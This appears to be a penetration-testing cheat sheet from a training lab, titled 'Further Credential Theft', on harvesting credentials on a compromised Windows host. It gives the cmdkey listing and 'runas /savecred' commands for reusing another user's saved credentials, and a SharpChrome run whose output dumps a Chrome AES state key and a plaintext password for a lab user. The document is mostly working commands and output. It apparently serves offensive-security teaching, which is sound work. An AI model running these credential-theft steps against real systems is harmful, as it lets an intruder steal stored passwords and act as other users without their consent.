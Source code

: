 # Further Credential Theft

## Cmdkey Saved Credentials

### Listing Saved Credentials

```
cmdkey /list

    Target: LegacyGeneric:target=TERMSRV/SQL01
    Type: Generic
    User: inlanefreight\bob
```

### Run Commands as Another User

```
runas /savecred /user:inlanefreight\bob "COMMAND HERE"
```

## Browser Credentials

### Retrieving Saved Credentials from Chrome

https://github.com/GhostPack/SharpDPAPI

```
.\SharpChrome.exe logins /unprotect

  __                 _
 (_  |_   _. ._ ._  /  |_  ._ _  ._ _   _
 __) | | (_| |  |_) \_ | | | (_) | | | (/_
                |
  v1.7.0


[*] Action: Chrome Saved Logins Triage

[*] Triaging Chrome Logins for current user



[*] AES state key file : C:\Users\bob\AppData\Local\Google\Chrome\User Data\Local State
[*] AES state key      : 5A2BF178278C85E70F63C4CC6593C24D61C9E2D38683146F6201B32D5B767CA0


--- Chrome Credential (Path: C:\Users\bob\AppData\Local\Google\Chrome\User Data\Default\Login Data) ---

file_path,signon_realm,origin_url,date_created,times_used,username,password
C:\Users\bob\AppData\Local\Google\Chrome\User Data\Default\Login Data,https://vc01.inlanefreight.local/,https://vc01.inlanefreight.local/ui,4/12/2021 5:16:52 PM,13262735812597100,bob@inlanefreight.local,Welcome1
```
